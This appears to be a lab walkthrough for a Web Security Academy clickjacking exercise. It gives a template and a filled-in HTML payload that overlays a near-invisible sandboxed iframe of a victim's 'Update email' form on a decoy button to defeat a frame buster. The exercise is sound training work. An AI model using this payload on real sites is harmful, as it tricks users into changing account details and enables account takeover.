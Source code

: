 Analysis:
1. Log in to the account on the target website.
2. Go to the exploit server and paste the following HTML template into the "Body" section:
```html 
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>

<div>Test me</div>

<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
3. Make the following adjustments to the template:
- Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID so that the URL of the target website's user account page, which contains the "Update email" form.
- Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
- Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 385px and 80px respectively).
- Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.

***Note:*** Notice the use of the `sandbox="allow-forms"` attribute that neutralizes the frame buster script.
	![](Pasted%20image%2020241216184624.png)
```html
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:455px;
        left:80px;
        z-index: 1;
    }
</style>

<div>Click me</div>

<iframe sandbox="allow-forms"    src="https://0ae300b3040fe4bc80fe62ab003a00f5.web-security-academy.net/my-account?email=paein@test.com"></iframe>
```
